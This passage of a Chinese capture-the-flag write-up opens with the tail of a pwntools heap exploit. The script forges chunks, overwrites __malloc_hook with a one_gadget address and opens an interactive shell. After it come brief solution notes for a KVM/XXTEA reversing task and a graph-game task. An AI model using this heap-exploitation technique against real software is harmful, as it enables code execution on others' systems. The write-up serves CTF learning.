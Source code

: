 ```python
edit_info(io, (p64(0)+p64(0x71)).ljust(0x70, 'a')+p64(0x21)*2+p64(g_passwd+0x10)*2+p64(0x21)+p64(0x21)[:7], 'aaa')
edit_info(io, p64(0)+p64(0x71)+p64(libc.symbols['__malloc_hook'] - 0x23)*2, ('\x00').ljust(0x60, 'a'))

edit_info(io, 'aaa', ("a"*19 + p64(one)).ljust(0x60, 'a'))

io.sendlineafter( "choice:", '1')
io.sendafter("Your new password: ", 'aaa')

io.interactive()
```

## 失落的圣物
是个KVM题，阅读源码可以看到，KVM加载了`binary_guest64_img_start`这里作为代码，我们把这里取出来，然后继续IDA分析，可以看出是个XXTEA加密，当 n > 0 时是加密，n < 0 时是解密算法

然后我们把`mov     dword ptr [rbp-0Ch], 0h`这里patch成`mov     dword ptr [rbp-0Ch], 0FFFFFFECh`

写个c代码加载一下这个程序，gdb运行，然后在内存中拿到flag

## Flag 红包
> 什么? 左右互博还需要题解?

（~~来自出题人的恶意~~）

老爹说过，要用AI战胜AI（误

于是我们也写了个AI

只需要注意以下几点

1. 没有出度的点肯定为必胜点，谁走到这里谁就会赢
2. 我们研究了对面的AI，发现对面也知道第一条，所以有任意一条出边连到必胜点的话，这个点就为必败点
3. 注意，如果一个点只有一条出边，且它连到了必胜点，那么他就是必败点
4. 通过2.3.条的递归，可以避免类似单行路的情况，防止被对面绕进去

代码懒得放了，我觉得这个应该很容易写出来(<ゝω·)~☆
